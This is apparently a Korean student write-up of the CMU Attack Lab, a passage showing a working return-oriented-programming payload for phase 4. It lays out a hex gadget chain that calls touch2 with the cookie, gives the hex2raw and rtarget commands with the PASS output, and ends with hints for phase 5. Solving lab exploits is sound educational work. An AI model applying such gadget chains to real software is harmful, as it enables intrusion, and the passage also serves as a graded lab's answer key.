 | Stack                    |              |
| ------------------------ | ------------ |
| touch2                   | High Address |
| gadget2(movq %rax, %rdi) |              |
| cookie                   |              |
| gadget1(pop %rax)        |              |
| getbuf buffer(40bytes)   | Low Address  |

아래는 이를 코드로 적은 것이다.

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00     /* popq %rax */
fa 97 b9 59 00 00 00 00     /* cookie    */
a2 19 40 00 00 00 00 00     /* movq %rax, %rdi */
ec 17 40 00 00 00 00 00     /* touch2   */
```

이제 이 코드를 변환하고 답에 넣어주면 된다.

```
./hex2raw < phase4.txt > phase4-ans.txt
./rtarget < phase4-ans.txt
```

```
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

### phase 5

phase 5는 phase 3와 같은 일을 ROP 공격으로 진행하는 것이다.
다만 phase4보다 더 까다로운데, 우선 movl instruction 표가 필요하고, 2-byte nop instruction이 필요하다.
이 둘은 attacklab.pdf Figure3.C, D에서 볼 수 있다.
2-byte nop instruction은 이름 그대로 레지스터의 값을 변화시키지 않는 연산이다.
그러므로 앞의 90처럼 사이에 끼워져 있어도 되는 연산으로 생각하면 된다.
문제 풀이를 위한 힌트는 아래와 같다.

-   movl이 상위 4bytes를 0으로 초기화한다는 것을 기억하자.
-   8개의 gadget을 사용해서 해결할 수 있다.
